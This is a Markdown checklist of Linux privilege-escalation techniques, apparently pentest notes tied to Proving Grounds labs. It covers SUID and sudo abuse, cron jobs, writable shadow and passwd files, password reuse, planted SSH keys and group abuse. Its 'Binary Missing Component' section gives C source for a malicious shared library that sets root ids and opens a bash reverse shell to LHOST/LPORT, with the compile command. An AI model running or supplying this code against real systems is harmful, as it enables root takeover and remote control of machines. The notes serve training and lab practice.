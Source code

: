 # Linux Privilege Escallation

- [ ] Writable `/etc/shadow`
- [ ] Writable `/etc/passwd`
- [ ] Check user's history
- [ ] Check user's `env`
- [ ] Check user's `.bashrc`
- [ ] SUID Bit
- [ ] `sudo -l`
  - [ ] GTFOBins
  - [ ] Try to read the binary (maybe it is `.sh` script)
  - [ ] Run the binary as `sudo <binary-full-path>`
- [ ] Cron Job
  - [ ] There may be missing library for binary file we can write create and write it [HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)
- [ ] Get the usernames from `/home` start brute force for the users
- [ ] If you come from web check `config.php`
- [ ] Look for services like `mysql`
- [ ] Look for internal ports
- [ ] Password Reuse (get password from different resources like db, config files and reuse them)
- [ ] Username and the password the same like `patrick:patrick`
- [ ] Create a key pair using `ssh-keygen` command and then change `id_rsa.pub` file to `authorized_keys` and add this file
- [ ] Check group of the user:
  - [ ] if it is `fail2ban` group [fail2ban PrivEsc](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) (PG-Practice Fail)
  - [ ] if it is `filter` group [filter PrivEsc](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish)
    - [ ] `find / -group filter 2>/dev/null`
  - [ ] if it is `docker` group [docker PrivSec](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/peppo)
- [ ] Service **`find /etc -type f -writable 2> /dev/null`** https://al1z4deh.medium.com/proving-grounds-hetemit-8469d0a3f189


## Restricted Bash (RBASH)
- [ ] Check available commands `echo $PATH`
- [ ] 

## Interesting Group
```
find / -group filter 2>/dev/null
```

## Binary Missing Component
1. You find a binary file that may be run by root user (SUID or SUDO or CronJob)
2. Try to run it
3. If it gives missing like "cannot open shared object file"
4. Check path `LD_LIBRARY_PATH` in `/etc/crontab` for example.
5. Find writable directory
```
find / -type d -writable 2>/dev/null
```
6. Match writable directories with PATH
7. Write a malicious .c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _inti() {
  setgid(0);
  setuid(0);
  system("bash -i >& /dev/tcp/LHOST/LPORT 0>&1");
}
```
8. Compile it
```
gcc -shared -fPIC -nostartfiles exploit.c -o exploit.so
```
9. Put it to the target place
10. Run the binary

## Tar
https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c

